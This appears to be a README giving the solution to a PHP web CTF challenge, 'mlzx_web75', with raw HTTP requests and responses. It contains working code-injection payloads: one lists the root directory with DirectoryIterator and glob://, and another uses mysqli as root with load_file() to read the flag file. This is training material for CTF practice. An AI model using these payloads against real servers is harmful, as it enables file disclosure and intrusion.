


# mlzx_web75

> [!NOTE]
>
> 使用了 [`CTF-Archives/ctf-docker-template/web-lnmp-php73`](https://github.com/CTF-Archives/ctf-docker-template/tree/main/web-lnmp-php73) 的一部分代码

------

- 获取 `flag` 位置

  请求包

  ```http
  POST / HTTP/1.1
  Host: IP:PORT
  Content-Type: application/x-www-form-urlencoded
  Content-Length: 31
  
  c=?><?php $a=new DirectoryIterator("glob:///*");foreach($a as $f){echo($f->__toString().'');}exit(0);?>
  ```

  响应包

  ```http
  HTTP/1.1 200 OK
  Server: nginx/1.20.2
  Date: Tue, 09 Dec 2025 02:31:39 GMT
  Content-Type: text/html; charset=UTF-8
  Connection: keep-alive
  X-Powered-By: PHP/7.3.33
  Content-Length: 70
  
  bindevetcflagAR8e.txthomelibmediamntoptprocrootrunsbinsrvsystmpusrvar
  ```

- 获取 `flag`

  请求包

  ```http
  POST / HTTP/1.1
  Host: IP:PORT
  Content-Type: multipart/form-data; boundary=WebKitFormBoundaryqcoLpjHF2KG9zUa6
  Content-Length: 312
  
  --WebKitFormBoundaryqcoLpjHF2KG9zUa6
  Content-Disposition: form-data; name="c"
  
  $conn = mysqli_connect("localhost", "root", "123456", "ctf"); $sql = "select load_file('/flagAR8e.txt') as a"; $row = mysqli_query($conn, $sql); while($result=mysqli_fetch_array($row)){ echo $result['a']; exit();}
  --WebKitFormBoundaryqcoLpjHF2KG9zUa6--
  ```

  <u>**注：由于此处 `MySQL` 使用的是 `socket` 连接，不是 `TCP`，所以不能使用 `127.0.0.1`，只能使用 `localhost`**</u>

  响应包

  ```http
  HTTP/1.1 200 OK
  Server: nginx/1.20.2
  Date: Tue, 09 Dec 2025 02:29:44 GMT
  Content-Type: text/html; charset=UTF-8
  Connection: keep-alive
  X-Powered-By: PHP/7.3.33
  Content-Length: 30
  
  flag{GZCTF_dynamic_flag_test}
  ```

------



